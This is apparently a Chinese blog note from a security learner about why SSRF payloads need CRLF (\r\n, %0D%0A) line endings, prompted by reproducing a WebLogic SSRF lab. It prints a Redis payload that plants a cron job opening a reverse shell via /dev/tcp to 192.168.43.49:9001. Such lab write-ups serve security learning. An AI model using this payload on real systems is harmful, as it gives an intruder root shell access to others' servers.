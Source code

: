 ```yaml
---
title: "\\r\\n的问题"
date: 2023-07-13 17:10:24
tags:
    - CTF
    - 杂谈
    - Misc
---
```


> `\r\n`是我们需要的换行字符，`\r`代表回车，`\n`代表换行
>
> `\r`就是回到行首，`\n`就是到下一行的，但是一般我们输出程序时，看不到明显的差别的。通常用的Enter是两个加起来
>
> `\r\n`与`\n`是有区别的
> 如果要通用的则是`\r\n`，因为有些编辑器它不认`\n`
>
> Link: https://blog.csdn.net/qq_39118371/article/details/127526198



`\r\n`的URL编码结果是`%0D%0A`

在一次复现weblogic SSRF漏洞使用Burpsuite发payload的时候发现一个问题，使用自己url编码器编码的payload无法成功，使用网上教程的payload可以。于是我对比了一下两个的区别，居然是缺少了`\r`，payload中需要使用`\r\n`。我感觉这个是老生长谈的问题，之前也遇到过，但是很久远了，于是这次把它记录下来。（de这个bug居然折腾我一天）

payload对比

![截屏2023-07-13 16.03.28](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131722528.png)

需要执行的payload编码前是

```
test

set 1 "\n\n\n\n* * * * * root bash -c 'sh -i >& /dev/tcp/192.168.43.49/9001 0>&1'\n\n\n\n"
config set dir /etc/cron.d/
config set dbfilename nopwn
save

aaa
```

如果直接丢入编码器编码会把换行编码为`\n`，不是我们要的`\r\n`。

![image-20230713144050524](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131440712.png)

不同的payload发送出去的对比

错误的结果：

![截屏2023-07-13 16.02.22](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131826122.png)

正确的结果：

![截屏2023-07-13 16.02.49](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131827771.png)

注：这个问题，虽然简单，但是需要注意，很容易因为这种小错误导致debug半天。还是需要多多练习
